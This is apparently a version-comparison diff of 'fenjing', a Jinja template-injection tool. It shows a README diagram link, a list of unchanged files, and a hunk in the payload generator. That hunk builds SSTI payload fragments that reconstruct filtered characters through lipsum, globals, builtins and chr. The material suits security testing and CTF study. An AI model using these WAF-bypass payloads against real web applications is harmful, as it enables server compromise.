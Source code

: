 ```diff
 ```
 
+## 项目结构
+
+[![](https://mermaid.ink/img/pako:eNqFVMtugzAQ_BXLUm7hBzj0UPUP2iMS2thrsGps6keiNMq_F5pS2xhan2BmdryeNdwoMxxpTYUyF9aD9eTtudFkWi6cOgtjT4KXypEHOC9mlLHyEyNi8SOg82gjJIwd0hLt_OMVNV_5w8kEX41wVQa4i0VS-_YMNkFcj0q1P8rMXciuxEWI6rZDHZkC3OsqP4ZjoNtgVUQuIFoRNMvt56qWWWDvSyS__ocDYUqSqnpKIkqRvG5h8p0Tk1X0CZOPaSJS91UDW2zpXEjyLVb0vMHmAAqbMsR14besNNpS5bcmvxpkv6n5eFt2RYr_CpZR7YSY0XEC2dX-u880ru0WCkU26YJNmqRHOqAdQPLpn3CbSxrqexywofX0yFFAUL6hjb5PUgjevF41o7W3AY80jBw8vkiYPqGB1gKUw_sXrbFnVA?type=png)](https://mermaid.live/edit#pako:eNqFVMtugzAQ_BXLUm7hBzj0UPUP2iMS2thrsGps6keiNMq_F5pS2xhan2BmdryeNdwoMxxpTYUyF9aD9eTtudFkWi6cOgtjT4KXypEHOC9mlLHyEyNi8SOg82gjJIwd0hLt_OMVNV_5w8kEX41wVQa4i0VS-_YMNkFcj0q1P8rMXciuxEWI6rZDHZkC3OsqP4ZjoNtgVUQuIFoRNMvt56qWWWDvSyS__ocDYUqSqnpKIkqRvG5h8p0Tk1X0CZOPaSJS91UDW2zpXEjyLVb0vMHmAAqbMsR14besNNpS5bcmvxpkv6n5eFt2RYr_CpZR7YSY0XEC2dX-u880ru0WCkU26YJNmqRHOqAdQPLpn3CbSxrqexywofX0yFFAUL6hjb5PUgjevF41o7W3AY80jBw8vkiYPqGB1gKUw_sXrbFnVA)
+
+
```

### Comparing `fenjing-0.2.6/fenjing/cli.py` & `fenjing-0.2.7/fenjing/cli.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.2.6/fenjing/colorize.py` & `fenjing-0.2.7/fenjing/colorize.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.2.6/fenjing/config_payload.py` & `fenjing-0.2.7/fenjing/config_payload.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.2.6/fenjing/const.py` & `fenjing-0.2.7/fenjing/const.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.2.6/fenjing/form.py` & `fenjing-0.2.7/fenjing/form.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.2.6/fenjing/form_cracker.py` & `fenjing-0.2.7/fenjing/form_cracker.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.2.6/fenjing/full_payload_gen.py` & `fenjing-0.2.7/fenjing/full_payload_gen.py`

 * *Files 20% similar despite different names*

```diff
@@ -17,15 +17,16 @@
 
 def get_str_context(waf_func):
     str_vars = [
         ("un", "_", "{%set un=(lipsum|escape|batch(22)|list|first|last)%}"),
         ("perc", "%", "{%set perc=(lipsum[(lipsum|escape|batch(22)|list|first|last)*2" +
          "+dict(globals=x)|join+(lipsum|escape|batch(22)|list|first|last)*2]" +
          "[(lipsum|escape|batch(22)|list|first|last)*2+dict(builtins=x)" +
-         "|join+(lipsum|escape|batch(22)|list|first|last)*2][dict(chr=x)|join](37))%}")
+         "|join+(lipsum|escape|batch(22)|list|first|last)*2][dict(chr=x)|join](37))%}"),
+        # ("fc", "{:c}", "{%set fc={{{1:2}|string|replace({1:2}|string|batch(4)|first|last,{}|join)|replace(1|string,{}|join)|replace(2|string,dict(c=1)|join)}}%}")
     ]
     str_vars = [tpl for tpl in str_vars if waf_func(tpl[2])]
     return "".join(payload for _, _, payload in str_vars), {var_name: var_value for var_name, var_value, _ in str_vars}
```
